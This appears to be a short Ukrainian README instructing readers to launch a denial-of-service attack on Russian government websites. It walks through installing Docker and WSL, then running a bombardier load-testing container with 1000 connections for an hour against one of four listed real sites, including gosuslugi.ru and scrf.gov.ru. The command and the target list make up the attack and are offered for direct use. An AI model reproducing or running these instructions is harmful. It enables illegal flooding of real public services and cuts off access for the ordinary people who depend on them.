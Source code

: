 ## Дудосим російські сайти

1) Встановити докер по силці https://www.docker.com/get-started 
2) Встановити ядро лінукса WLS в четвертому пункті по силці https://docs.microsoft.com/ru-ru/windows/wsl/install-manual#step-4---download-the-linux-kernel-update-package 
3) перезапусти комп
5) докер має вигляди наступним чином

![изображение](https://user-images.githubusercontent.com/50421230/155846674-d6c7a529-a2a4-4bf6-9e54-6924c9b5f409.png)

5) Зайдіть в cmd або іншу наявну консоль на пк і пропишіть цю команду ```docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l``` через пробіл після цієї команди встате силку на один із цих сайтів
 - https://www.gosuslugi.ru/
 - https://epp.genproc.gov.ru
 - https://ach.gov.ru
 - http://www.scrf.gov.ru
